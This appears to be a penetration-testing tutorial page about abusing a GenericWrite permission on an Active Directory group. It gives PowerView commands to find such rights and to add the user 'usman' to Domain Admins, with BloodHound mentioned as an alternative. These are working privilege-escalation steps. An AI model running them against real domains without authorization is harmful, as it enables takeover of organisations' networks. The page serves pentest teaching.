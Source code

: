 ```yaml
---
title:  GenericWrite On Group
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# GenericWrite

***GenericWrite*** : If you have `GenericWrite` on group object, you can add users to the group.

# Enumeration

## PowerView

### GenericWrite Enumeration 

We will get current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which we have `GenericWrite` right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[our_current_user_sid]") -and ($_.activedirectoryrights -like "*GenericWrite*")}

```

Below image shows the current user `usman` has GenericWrite right on `Domain Admins` group.

![aclgroupgenall](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenw2.png)

## BloodHound

We can also get thesame result using bloodhound.

Below image shows the current user `usman` has GenericWrite right on `Domain Admins` group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenw1.png)

# Exploitation

Let's check our current group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall3.png)

Here `usman` is a member of `Domain Users` group. We are going to exploit `GenericWrite` to add `usman` to `Domain Admins` group.

## PowerView

Since we have `GenericWrite` right on `Domain Admins` group, we can add `usman` to the group by executing the below command

Command

```powershell
add-domaingroupmember -identity "Domain Admins" -members usman

```

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall4.png)

Let's check it by executing `get-netgroup -memberidentity usman`

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall5.png)

As you can see, `usman` has been added to `Domain Admins` group.
	
# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
